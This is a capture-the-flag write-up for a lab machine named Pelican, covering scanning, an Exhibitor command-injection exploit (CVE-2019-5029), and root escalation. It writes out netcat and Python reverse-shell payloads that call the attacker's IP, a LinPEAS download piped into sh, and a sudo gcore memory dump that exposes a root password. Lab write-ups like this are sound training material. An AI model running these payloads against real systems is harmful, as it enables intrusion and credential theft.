







# Pelican (rough write-up)


```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p- -T4 pelican                 

...

PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
37753/tcp open  unknown
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p 22,139,445,631,2181,2222,8080,8081,37753 -A pelican

...

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
|_http-server-header: CUPS/2.2 IPP/2.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://pelican:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
37753/tcp open  java-rmi    Java RMI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2024-03-05T05:51:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-03-05T00:51:37-05:00
```

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L pelican -N              

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP      
```

```
┌──(kali㉿kali)-[~]
└─$ searchsploit cups 
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
APC UPS 3.7.2 - 'apcupsd' Local Denial of Service       | linux/dos/251.c
CUPS - 'kerberos' Cross-Site Scripting                  | multiple/remote/10001.txt
CUPS 1.1.x - '.HPGL' File Processor Buffer Overflow     | linux/remote/24977.txt
CUPS 1.1.x - Cupsd Request Method Denial of Service     | linux/dos/22619.txt
CUPS 1.1.x - Negative Length HTTP Header                | linux/remote/22106.txt
CUPS 1.1.x - UDP Packet Remote Denial of Service        | linux/dos/24599.txt
CUPS 1.3.7 - 'HP-GL/2' Filter Remote Code Execution     | linux/remote/32470.rb
CUPS 1.3.7 - Cross-Site Request Forgery (Add RSS Subscr | linux/dos/7150.html
CUPS 1.3.9 - 'cups/ipp.c' Null Pointer Dereference Deni | linux/dos/33020.py
CUPS 1.4.2 - Web Interface Information Disclosure       | linux/remote/34152.txt
CUPS < 1.3.8-4 - Local Privilege Escalation             | multiple/local/7550.c
CUPS < 2.0.3 - Multiple Vulnerabilities                 | multiple/remote/37336.txt
CUPS < 2.0.3 - Remote Command Execution                 | linux/remote/41233.py
Cups Easy 1.0 - Cross Site Request Forgery (Password Re | php/webapps/47973.txt
CUPS Filter - Bash Environment Variable Code Injection  | linux/remote/35115.rb
CUPS Server 1.1 - GET Denial of Service                 | linux/dos/1196.c
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

From nmap we know the version of Zookeeper (`3.4.6-1569965 (Built on 02/20/2014)`)

We find an exploit online for CVE-2019-5029.

https://www.exploit-db.com/exploits/48654

> An exploitable command injection vulnerability exists in the Config editor of the Exhibitor Web UI versions 1.0.9 to 1.7.1. Arbitrary shell commands surrounded by backticks or $() can be inserted into the editor and will be executed by the Exhibitor process when it launches ZooKeeper. An attacker can execute any command as the user running the Exhibitor process.

We'll get back to that. For now we look at the webserver on the browser.

Surprise: the root path redirects us the the exhibitor UI.


We read the docs for the exploit and attempt it:

> The steps to exploit it from a web browser:
>
>    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON
>
>    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:
>
>    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
> 
>    Click Commit > All At Once > OK
> 
>    The command may take up to a minute to execute.

We set up our local listener with `nc -lvnp 4444`, write our shell into the `java.env script` field and press commit...












We find our flag in user `charles`'s home dir:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.164.98] 53012
whoami
charles
pwd
/opt/zookeeper
cd /home/charles
ls
local.txt
cat local.txt
399e910d5aecc91538c2073495090194
```

Now its time for privilege escalation...

We check for unknown SUID binaries in `/usr/bin`:

```
ls -la /usr/bin | grep rws
-rwsr-xr-x  1 root root      55400 Mar  6  2019 bwrap
-rwsr-xr-x  1 root root      54096 Jul 27  2018 chfn
-rwsr-xr-x  1 root root      44528 Jul 27  2018 chsh
-rwsr-xr-x  1 root root      34896 Apr 22  2020 fusermount
-rwsr-xr-x  1 root root      84016 Jul 27  2018 gpasswd
-rwsr-xr-x  1 root root      51280 Jan 10  2019 mount
-rwsr-xr-x  1 root root      44440 Jul 27  2018 newgrp
-rwsr-xr-x  1 root root     154352 Mar 21  2019 ntfs-3g
-rwsr-xr-x  1 root root      63736 Jul 27  2018 passwd
-rws--x--x  1 root root      17024 Sep 10  2020 password-store
-rwsr-xr-x  1 root root      23288 Jan 15  2019 pkexec
-rwsr-xr-x  1 root root      63568 Jan 10  2019 su
-rwsr-xr-x  1 root root     157192 Feb  2  2020 sudo
-rwsr-xr-x  1 root root      34888 Jan 10  2019 umount
ls -la /usr/sbin | grep rws
-rwsr-xr--  1 root dip     386792 Feb 20  2020 pppd
```

Note: `password-store` is interesting, not a well-known binary

Check for cron jobs:

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
@reboot		root	/usr/bin/password-store
@reboot 	root	while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

The `password-store` binary gets invoked on reboot. Also something running `chown` constantly against the `/opt/zookeeper` and `/opt/exhibitor` directories (recursively).

I set up a better shell because the one we have is trash:

```
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
charles@pelican:~$ 
```

I run LinPEAS just in case, don't want to miss anything...

```
charles@pelican:~$ which wget
which wget
/usr/bin/wget
charles@pelican:~$ wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS findings:

- LinPEAS also raises the `password-store` job as something to look at
- User `charles` can run `gcore`:

```
User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
Sudoers file: /etc/sudoers.d/charles is readable
charles ALL=(ALL) NOPASSWD:/usr/bin/gcore
```

--- 

We'll come back to this in a bit.

I noticed that if I reboot the `zookeper` server from the UI, I see some logs:



There seems to be a shell script (`zkserver.sh`) that runs when we reboot zookeper.

I also know from the cron jobs that user `charles` should have write access to everything under `/opt/zookeeper` and `/opt/exhibitor`. So we'll try setting a reverse shell there just for fun and to see if we learn anything:

```
charles@pelican:/opt/zookeeper/bin$ ls -la
ls -la
total 44
drwxr-xr-x  2 charles charles 4096 Feb 20  2014 .
drwxr-xr-x 12 charles charles 4096 Mar  5 01:06 ..
-rwxr-xr-x  1 charles charles  238 Feb 20  2014 README.txt
-rwxr-xr-x  1 charles charles 1937 Feb 20  2014 zkCleanup.sh
-rwxr-xr-x  1 charles charles 1049 Feb 20  2014 zkCli.cmd
-rwxr-xr-x  1 charles charles 1534 Feb 20  2014 zkCli.sh
-rwxr-xr-x  1 charles charles 1333 Feb 20  2014 zkEnv.cmd
-rwxr-xr-x  1 charles charles 2696 Feb 20  2014 zkEnv.sh
-rwxr-xr-x  1 charles charles 1084 Feb 20  2014 zkServer.cmd
-rwxr-xr-x  1 charles charles 5742 Feb 20  2014 zkServer.sh
```

Let's try reverse shell.

I serve the modified version of the script (which contains a python reverse shell) from my Kali machine, which I get with wget and replace the file in the target server.

```
charles@pelican:/opt/zookeeper/bin$ wget -O zkServer.sh http://192.168.45.199/zkServerBad.sh
<-O zkServer.sh http://192.168.45.199/zkServerBad.sh
--2024-03-05 01:48:33--  http://192.168.45.199/zkServerBad.sh
Connecting to 192.168.45.199:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5789 (5.7K) [text/x-sh]
Saving to: ‘zkServer.sh’

zkServer.sh         100%[===================>]   5.65K  --.-KB/s    in 0s      

2024-03-05 01:48:33 (11.5 MB/s) - ‘zkServer.sh’ saved [5789/5789]
cat zkServer.sh | grep python
python -c 'import socket,os,pty;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.199",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.164.98 - - [04/Mar/2024 22:48:33] "GET /zkServerBad.sh HTTP/1.1" 200 -
```

I reboot the server with the button on the UI:




We get a shell... as `charles`...

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.164.98] 56622
whoami
charles
```

I did try to set the uid to 0 in the python shell, hoping for the best, but no luck. Can't get root this way.

Back to LinPEAS results... we can run `gcore` as root. I read about `gcore` online and its a tool used to generate core dumps... sounds like a long shot, but let's try that on that `password-store` process that get's kicked off on reboot.

```
charles@pelican:/opt/zookeeper$ gcore 
gcore 
usage:  gcore [-a] [-o filename] pid

charles@pelican:/opt/zookeeper$ ps -aux | grep password-store
ps -aux | grep password-store
root       484  0.0  0.0   2276    72 ?        Ss   00:47   0:00 /usr/bin/password-store
charles   4642  0.0  0.0   6208   888 pts/4    S+   02:06   0:00 grep password-store
root      8118  0.0  0.0   2276    68 ?        Ss   01:12   0:00 password-store

charles@pelican:/opt/zookeeper$ sudo gcore 8118
sudo gcore 8118
0x00007fa0df6086f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fff3e8d3ff0, remaining=remaining@entry=0x7fff3e8d3ff0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28	../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.8118
[Inferior 1 (process 8118) detached]

charles@pelican:/opt/zookeeper$ cat core.8118 | strings | grep -5 charles
cat core.8118 | strings | grep -5 charles
////////////////
001 Password: root:
ClogKingpinInning731
yU|x86_64
password-store
USER=charles
SHLVL=0
HOME=/home/charles
OLDPWD=/etc
LOGNAME=charles
JOURNAL_STREAM=9:16346
_=/bin/nc
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
INVOCATION_ID=01ab10c8340c4e44a125c89fa57242bd
LANG=en_US.UTF-8
```

The core dump has a password. Let's try it against `root`:

```
charles@pelican:/opt/zookeeper$ su root
su root
Password: ClogKingpinInning731

root@pelican:/opt/zookeeper# cat /root/proof.txt
cat /root/proof.txt
e1cedd57a7563b4cb2ef1cacc6f56c7e
```

Success! Kind of got lucky with that grepping for "charles" and instead got root lol...